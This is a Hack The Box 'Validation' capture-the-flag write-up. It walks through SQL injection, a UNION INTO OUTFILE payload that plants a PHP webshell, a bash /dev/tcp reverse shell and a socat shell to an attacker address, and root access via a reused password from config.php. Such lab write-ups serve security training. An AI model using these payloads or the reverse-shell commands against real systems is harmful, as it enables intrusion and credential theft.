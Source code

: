 ```yaml
---
layout: post
title: Hack The Box - Validation Writeup
date: 2024-06-03 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![validationBadge.png](/assets/img/Validation/validationBadge.png)

## Summary

While testing functionalities of application on port 80, I discovered that `country` parameter is vulnerable to SQL Injection. I was able to determine specific number of columns in the table by using `ORDER` query. With this knowledge, I was able to write files on web server via `SELECT INTO_OUTFILE`. I created `webshell.php` in the apache `webroot` and used `URL` encoded bash payload to get reverse shell on system. While enumerating system as user `www-data`, I stumbled upon interesting file `/var/www/html/config.php`. File contains credentials for `mysql` , so I tried to reuse this password and log in as user `root`. This proved to be valid password and I got root access to the system.

___
## Reconnaissance

### Nmap

```
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration


| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.116 | **TCP**: 22, 80, 4566, 8080 |


#### Port 80

![80.png](/assets/img/Validation/80.png)


![dirsearch.png](/assets/img/Validation/dirsearch.png)

While testing functionality of application, I placed single quote in the `country` parameter which resulted in error. This indicates that application could be vulnerable to SQL Injection and requires further testing. 

![sqlTest.png](/assets/img/Validation/sqlTest.png)

![sqlTestError.png](/assets/img/Validation/sqlTestError.png)

___
## Initial Foothold

### UNION-based SQL Injection

I tried to insert statement that orders results by a specific column meaning it will fail whenever the selected column does not exist. This way I was able to determine number of columns in the table. 

```sql
' ORDER BY 2-- //
```

This payload resulted in error which means that table does not have 2 columns. 


![orderError.png](/assets/img/Validation/orderError.png)

```sql
' ORDER BY 1-- //
```

![orderSuccess.png](/assets/img/Validation/orderSuccess.png)

Missing error message means that our statement was valid and we determined that table has one column. Now that we know number of columns in table we can try to write files on web server via `SELECT INTO_OUTFILE` statement. I will try to write `webshell.php` to `webroot` directory 

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php" -- //
```

![burpWebshell.png](/assets/img/Validation/burpWebshell.png)

Submitting the payload we see error message which can be attributed to the fact that the query does not return any results, so we can continue in exploitation. To trigger the query we need to load the page by accessing it. To do this you can right click on the response in `Burp` choose `Show response in browser`, copy URL and paste it to your browser. 

![burpErrorAccess.png](/assets/img/Validation/burpErrorAccess.png)

Now we can access our `webshell`.

![webshell.png](/assets/img/Validation/webshell.png)

To get reverse shell on system I used URL encoded bash reverse shell. 

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.38/7003 0>&1"
```

![burpDecoder.png](/assets/img/Validation/burpDecoder.png)

After submitting URL encoded payload to `webshell` I received reverse shell connection.

![webshellPayload.png](/assets/img/Validation/webshellPayload.png)

![reverseShell.png](/assets/img/Validation/reverseShell.png)

### User.txt

![userFlag.png](/assets/img/Validation/userFlag.png)

### Upgrading TTY using socat

On victim machine:
```bash
/usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.38:4444
```

On kali:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

![upgradeTTY.png](/assets/img/Validation/upgradeTTY.png)

_____
## Privilege Escalation

### System Enumeration

![config.png](/assets/img/Validation/config.png)

```
uhc : uhc-9qual-global-pw
```

#### Linpeas

![linpeas1.png](/assets/img/Validation/linpeas1.png)

![linpeas2.png](/assets/img/Validation/linpeas2.png)

### Logging as root

By using password found in `config.php`, I got root access to the system.

```
root : uhc-9qual-global-pw
```

![escalation.png](/assets/img/Validation/escalation.png)

___
## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Validation/rootFlag.png)